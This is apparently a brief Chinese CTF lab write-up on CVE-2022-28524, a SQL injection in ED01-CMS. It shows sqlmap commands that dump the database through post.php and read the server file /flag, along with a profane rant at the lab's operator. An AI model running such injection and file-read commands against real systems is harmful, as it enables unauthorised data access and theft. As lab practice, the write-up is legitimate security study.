 > https://yunjing.ichunqiu.com/cve/detail/1018
> #SQL-Injection 

> ED01-CMS v20180505 存在SQL注入漏洞
> https://nvd.nist.gov/vuln/detail/CVE-2022-28524

正常访问：
![[Pasted image 20230117105231.png]]
根据CVE通报，直接对`post.php`进行sqlmap测试：
![[Pasted image 20230117105354.png]]

可以成功注入，于是开始扒库：
```shell
sqlmap -u http://eci-2zectxwp1cowg4c4x27g.cloudeci1.ichunqiu.com/post.php?pid=99 --dump
```

扒库扒永信至诚的裤子，tmd，会不会写dockerfile，写一个sh脚本把flag放进数据库不会？这么赶工是不是阎王爷在他屁股后面追着他妈，他来不及写Dockerfile来赚钱了，能捞一笔是一笔对吧
```shell
sqlmap -u http://eci-2zectxwp1cowg4c4x27g.cloudeci1.ichunqiu.com/post.php?pid=9 --file-read="/flag"
```